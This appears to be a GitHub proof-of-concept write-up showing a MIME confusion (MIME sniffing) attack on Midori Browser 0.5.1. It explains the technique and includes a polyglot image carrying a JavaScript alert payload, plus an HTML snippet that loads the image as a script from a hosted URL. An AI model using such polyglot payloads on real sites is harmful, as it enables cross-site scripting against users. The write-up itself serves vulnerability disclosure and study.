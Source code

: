 # MIME Confusion Attack on Midori Browser

This PoC describes a MIME confusion attack on Midori Browser 0.5.1.

## About the MIME Confusion Attack

Scanning the content of a file allows web browsers to detect the format of a file regardless of the specified Content-Type by the web server. For example, if browser requests script from a web server and that web server sends that script using a Content-Type of “image/jpg” browser will successfully detect the actual format and will execute the script. This technique, colloquially known as “MIME sniffing”, compensates for incorrect, or even complete absence of metadata browsers need to interpret the contents of a page resource. The browser uses contextual clues (the HTML element that triggered the fetch) or also inspects the initial bytes of media type loads to determine the correct content type. While MIME sniffing increases the web experience for the majority of users, it also opens up an attack vector known as MIME confusion attack.

Consider a web application which allows users to upload image files but does not verify that the user actually uploaded a valid image, e.g., the web application just checks for a valid file extension. This lack of verification allows an attacker to craft and upload an image which contains scripting content. The browser then renders the content as HTML opening the possibility for a Cross-Site Scripting attack (XSS). Even worse, some files can even be polyglots, which means their content satisfies two content types. E.g., a GIF can be crafted in a way to be valid image and also valid JavaScript and the correct interpretation of the file solely depends on the context.

## About Midori Browser

## Step by Step Proof of Concept

I used a polyglot GIF with a built-in JavaScript code (available at: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg):

<code>
 */=alert("Burp rocks.")/*
</code>

And the following HTML / JS code:

<code>
  <html>
     <img src="2x.jpg">
	   <script src="https://poc.sejalivre.org/wp-content/uploads/2019/12/2x.jpg"></script>
 </html>
</code>

I hosted at http://joomla.sejalivre.org

I downloaded and installed Browser Midori 0.5.1 on Windows 10 and simply accessed the page mentioned above.

As shown, we find that the browser has no implementation against MIME confusion attacks
